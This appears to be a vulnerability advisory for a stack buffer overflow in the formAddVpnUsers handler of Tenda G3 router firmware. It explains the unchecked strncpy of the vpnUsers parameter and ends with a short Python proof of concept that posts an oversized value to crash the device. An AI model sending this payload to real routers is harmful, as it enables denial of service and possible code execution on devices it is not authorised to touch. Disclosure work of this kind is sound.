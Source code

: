 # Tenda G3 formAddVpnUsers
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formAddVpnUsers function.
### Vulnerability details
Stack-based buffer overflow in function formAddVpnUsers on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formAddVpnUsers line 19, it reads in a user-provided parameter, and the variable vpnUsers is passed to the strncpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formAddVpnUsers-1.png)
![](images/formAddVpnUsers-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addVpnUsers'
payload = {
    "vpnUsers": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
